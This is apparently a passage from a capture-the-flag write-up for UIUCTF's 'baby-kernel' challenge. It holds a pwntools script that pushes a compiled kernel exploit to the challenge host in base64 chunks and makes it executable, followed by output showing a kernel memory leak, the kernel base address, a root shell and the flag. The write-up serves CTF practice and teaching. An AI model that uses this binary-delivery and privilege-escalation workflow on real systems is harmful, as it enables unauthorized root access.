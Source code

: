 ```python {script_name="transfer_to_server_lol.py"}
from pwn import *
from base64 import b64encode
from tqdm import tqdm

with process("ncat --ssl baby-kernel.chal.uiuc.tf 1337".split(" "), stdin=PTY) as p:
    data = b64encode(open("./shared/exploit", "rb").read()).decode("ascii")
    for i in tqdm(range(0, len(data), 100)):
        chars = data[i:i+100]
        p.sendlineafter(b"$ ", f"echo -n '{chars}' >> /tmp/exploit_b64".encode("ascii"))

        p.sendlineafter(b"$ ", b"cat /tmp/exploit_b64 | base64 -d > /tmp/exploit")
        p.sendlineafter(b"$ ", b"md5sum /tmp/exploit")
    p.sendlineafter(b"$ ", b"chmod +x /tmp/exploit")
    p.interactive()
```

```bash
~$ /mnt/exploit 
success, returned 0
success, returned 0
success, returned 0
Printing: 01  ... 15 bytes ... c0 63 99 41 04 4f 3b ff  ... 2 bytes ... c0 41 04 4f 3b ff  ... 1 bytes ... 51 e8 b8 ff ff ff ff 90 39 b9 41 04 4f 3b ff  ... 16 bytes ... 40 ec c2 41 04 4f 3b ff 40 ec c2 41 04 4f 3b ff 50 ec c2 41 04 4f 3b ff 50 ec c2 41 04 4f 3b ff  ... 16 bytes ... 70 ec c2 41 04 4f 3b ff 70 ec c2 41 04 4f 3b ff  ... 16 bytes ... 90 ec c2 41 04 4f 3b ff 90 ec c2 41 04 4f 3b ff  ... 16 bytes ... b0 ec c2 41 04 4f 3b ff b0 ec c2 41 04 4f 3b ff  ... 24 bytes ... d8 ec c2 41 04 4f 3b ff d8 ec c2 41 04 4f 3b ff  ... 16 bytes ... f8 ec c2 41 04 4f 3b ff f8 ec c2 41 04 4f 3b ff  ... 8 bytes ... bf  ... 8 bytes ... 03 1c 7f 15 04  ... 1 bytes ... 01  ... 1 bytes ... 11 13 1a  ... 1 bytes ... 12 0f 17 16  ... 4 bytes ... 96  ... 3 bytes ... 96  ... 46 bytes ... 70 74 6d 30  ... 60 bytes ... 01 08 01  ... 5 bytes ... 01  ... 56 bytes ... f0 c2 41 04 4f 3b ff  ... 16 bytes ... f8 ed c2 41 04 4f 3b ff f8 ed c2 41 04 4f 3b ff  ... 8 bytes ... 10 ee c2 41 04 4f 3b ff 10 ee c2 41 04 4f 3b ff e0 ff ff ff 0f  ... 3 bytes ... 28 ee c2 41 04 4f 3b ff 28 ee c2 41 04 4f 3b ff  ... 1 bytes ... 96 20 b8 ff ff ff ff  ... 1 bytes ... d0 18 40 6d 0f 4d ff  ... 1 bytes ... 98 be 41 04 4f 3b ff  ... 16 bytes ... 10 75 bb 41 04 4f 3b ff 10 75 bb 41 04 4f 3b ff e0 ff ff ff 0f  ... 3 bytes ... 78 ee c2 41 04 4f 3b ff 78 ee c2 41 04 4f 3b ff e0 b3 20 b8 ff ff ff ff  ... 
Kernel base address: 0xffffffffb7c00000
Address of allocated buffer: 0xff3b4f0441c2ec00
Executing; starting 0xffffffffb7f2e788 ending 0xffffffffb7cb9970
success, returned 0
~# cat /flag.txt
uiuctf{use_after_free_ecda3a86}
```
